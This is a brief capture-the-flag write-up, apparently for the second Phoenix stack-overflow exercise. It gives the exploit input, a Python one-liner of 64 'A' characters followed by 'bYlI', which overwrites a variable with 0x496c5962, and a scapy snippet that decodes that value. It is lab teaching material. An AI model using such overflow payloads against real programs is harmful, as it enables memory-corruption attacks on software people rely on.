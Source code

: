 #Second Phoenix stack overflow challenge
##write a specific value to overflowed variable

Flag: 
$(python -c 'print("A"*64+"bYlI")')


*bYlI from required 0x496c5962 with: 

from scapy.all import hex_bytes
hex_bytes('496c5962').decode("utf-8")' 

